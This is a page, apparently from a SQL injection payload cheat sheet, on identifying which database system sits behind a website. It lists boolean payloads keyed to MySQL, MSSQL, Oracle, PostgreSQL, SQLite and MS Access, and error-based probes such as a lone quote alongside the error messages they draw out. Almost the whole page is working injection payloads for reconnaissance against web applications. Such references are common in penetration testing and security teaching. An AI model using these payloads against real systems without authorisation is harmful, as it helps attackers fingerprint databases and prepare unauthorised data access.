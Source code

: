 Certain SQL keywords are specific to particular database management systems (DBMS). By using these keywords in SQL injection attempts and observing how the website responds, you can often determine the type of DBMS in use.

| DBMS                | SQL Payload                     |
| ------------------- | ------------------------------- |
| MySQL               | `conv('a',16,2)=conv('a',16,2)` |
| MySQL               | `connection_id()=connection_id()` |
| MySQL               | `crc32('MySQL')=crc32('MySQL')` |
| MSSQL               | `BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)` |
| MSSQL               | `@@CONNECTIONS>0` |
| MSSQL               | `@@CONNECTIONS=@@CONNECTIONS` |
| MSSQL               | `@@CPU_BUSY=@@CPU_BUSY` |
| MSSQL               | `USER_ID(1)=USER_ID(1)` |
| ORACLE              | `ROWNUM=ROWNUM` |
| ORACLE              | `RAWTOHEX('AB')=RAWTOHEX('AB')` |
| ORACLE              | `LNNVL(0=123)` |
| POSTGRESQL          | `5::int=5` |
| POSTGRESQL          | `5::integer=5` |
| POSTGRESQL          | `pg_client_encoding()=pg_client_encoding()` |
| POSTGRESQL          | `get_current_ts_config()=get_current_ts_config()` |
| POSTGRESQL          | `quote_literal(42.5)=quote_literal(42.5)` |
| POSTGRESQL          | `current_database()=current_database()` |
| SQLITE              | `sqlite_version()=sqlite_version()` |
| SQLITE              | `last_insert_rowid()>1` |
| SQLITE              | `last_insert_rowid()=last_insert_rowid()` |
| MSACCESS            | `val(cvar(1))=1` |
| MSACCESS            | `IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0` |


### DBMS Identification Error Based

Different DBMSs return distinct error messages when they encounter issues. By triggering errors and examining the specific messages sent back by the database, you can often identify the type of DBMS the website is using.

| DBMS                | Example Error Message                                                                    | Example Payload |
| ------------------- | -----------------------------------------------------------------------------------------|-----------------|
| MySQL               | `You have an error in your SQL syntax; ... near '' at line 1`                            | `'`             |
| PostgreSQL          | `ERROR: unterminated quoted string at or near "'"`                                       | `'`             |
| PostgreSQL          | `ERROR: syntax error at or near "1"`                                                     | `1'`            |
| Microsoft SQL Server| `Unclosed quotation mark after the character string ''.`                                 | `'`             |
| Microsoft SQL Server| `Incorrect syntax near ''.`                                                              | `'`             |
| Microsoft SQL Server| `The conversion of the varchar value to data type int resulted in an out-of-range value.`| `1'`            |
| Oracle              | `ORA-00933: SQL command not properly ended`                                              | `'`             |